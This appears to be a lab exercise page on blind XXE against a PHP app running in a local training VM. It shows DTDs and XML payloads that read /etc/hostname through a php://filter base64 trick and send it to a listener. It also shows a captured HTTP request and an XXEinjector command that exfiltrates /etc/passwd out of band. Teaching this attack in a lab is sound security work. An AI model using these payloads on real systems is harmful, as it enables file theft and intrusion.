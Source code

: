 ```yaml
---
title: "Blind XXE"
weight: 2
---
```


{{% notice note %}}
Make sure you are on the PHP site (`/php/`) for these exercises.
{{% /notice %}}

If we try the same blind exfil we did in the Java app.

DTD (`/home/vagrant/dtds/hostname.dtd`)

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://127.0.0.1:5000/?x=%file;'>">
%eval;
%exfil;
```

Payload

```xml
<!DOCTYPE root [
  <!ENTITY % xxe SYSTEM "http://127.0.0.1:5000/hostname.dtd"> %xxe;
]>

<root>
  <name>XXE</name>
  <tel>(555) 555-1734</tel>
  <email>email</email>
  <password>pass</password>
</root>
```

It does not work. If we look at the error logs `/var/log/nginx/error.log` we see this:

![](/static/img/php_invalid_uri.png)

To get around this, php has the ability to encode the contents. So in this test we will using the following dtd:

DTD (`/home/vagrant/dtds/php_encode_etc_hostname.dtd`)

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://127.0.0.1:5000/?x=%file;'>">
%eval;
%exfil;
```

Notice how we are now using a php filter to encode the contents of the `/etc/hostname` file in base64. When we submit the payload:

```xml
<!DOCTYPE root [
  <!ENTITY % xxe SYSTEM "http://127.0.0.1:5000/php_encode_etc_hostname.dtd"> %xxe;
]>
<root>
  <name>XXE</name>
  <tel>(555) 555-1734</tel>
  <email>email</email>
  <password>pass</password>
</root>
```

We see the following request to our webserver:

![](/static/img/php_encoded_hostname.png)

We can then base64 decode this and we get the hostname:

![](/static/img/php_decoded_hostname.png)

We can automate this process a bit using XXEinjector.

First we save an example request and include a mark (`XXEINJECTOR`) where XXEinjector should inject the DTD. (`/home/vagrant/test_files/php_xxeinjector_req.txt`)

```plaintext
POST /php/process.php HTTP/1.1
Host: localhost:8085
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 216
Origin: http://localhost:8085
DNT: 1
Connection: close
Referer: http://localhost:8085/php/

XXEINJECT
<root>
  <name>XXE</name>
  <tel>(555) 555-1734</tel>
  <email>email</email>
  <password>pass</password>
</root>
```

Using this file we tell XXEinjector to grab the contents of the `/etc/passwd` file, base64 encode it and then send it back to our http server listening on port `5005`.

```bash
ruby /home/vagrant/tools/XXEinjector/XXEinjector.rb --httpport=5005 --path=/etc/passwd --host=127.0.0.1 --file=/home/vagrant/test_files/hostname_req.txt --phpfilter --oob=http
```

This shows that we received some content as a response.

![](/static/img/php_xxeinjector.png)

To see the contents we will look in the `Logs` folder under the directory we ran the tool from. As we can see, the contents has been base64 decoded for us automatically.

![](/static/img/php_xxeinjector_results.png)
